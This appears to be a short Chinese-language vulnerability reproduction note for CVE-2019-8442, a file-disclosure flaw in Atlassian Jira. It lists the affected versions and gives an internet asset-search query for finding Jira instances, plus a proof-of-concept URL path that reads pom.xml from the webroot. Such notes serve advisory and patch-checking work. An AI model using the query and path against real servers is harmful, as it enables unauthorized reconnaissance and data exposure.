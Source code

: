 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

```
Atlassian Jira < 7.13.4
Atlassian Jira 8.00-8.0.4
Atlassian Jira 8.1.0-8.1.1
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](images/202205241425263.png)

验证POC

```
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![](images/202205241425438.png)